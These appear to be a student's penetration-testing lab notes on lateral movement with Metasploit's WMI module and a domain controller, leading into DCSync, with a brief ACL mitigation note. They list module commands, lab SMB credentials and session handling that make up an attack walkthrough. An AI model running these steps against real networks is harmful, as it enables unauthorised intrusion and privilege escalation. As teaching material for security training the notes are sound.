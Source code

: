 ____


![[17.3.0.8.jpg]]
We are able to privesca by using lateral movement 

Mitigation:
Add ACL to important system
- ACL are Access control list 
	- This will on only allow certain people to sign in 

___
Activity: Lateral Movement
Go back to the first cmd 
back ground 
use exploit/windows/local/wmi
options

![[17.3.0.6.jpg]]
set RHOSTS 172.22.117.10`
set SESSION [ID of the active Meterpreter session running as SYSTEM]
- The SYSTEM was admin which was Tstark (Windows 10 - Tstark)
	- We will use the session 172.22.117.10
	- The session would be 1 
		- The reason why we set the session to 1 is because that is the machine we have access too
set SMBDomain megacorpone`
set SMBUser bbanner`
set SMBPass Winter2021`
set LHOST 172.22.117.100

![[17.3.0.7.jpg]]
Note This will create a new session (2)
- Sysinfo
	- We are login WINDC01
- getuid
	- We are sign into bbanner 
![[17.3.0.8.jpg]]
We are able to privesca by using lateral movement 

Mitigation:
Add ACL to important system
- ACL are Access control list 
	- This will on only allow certain people to sign in 


____
DCSYNC
$ Session 
- We want to go to session 2 (back to metapreter)
	- we know that Bbanner is in metapreter
$ Session -i 2 
- -i: Interact 
	- We should have this because we want to enter -i2
$ shell
- WE want to run as SYSTEM
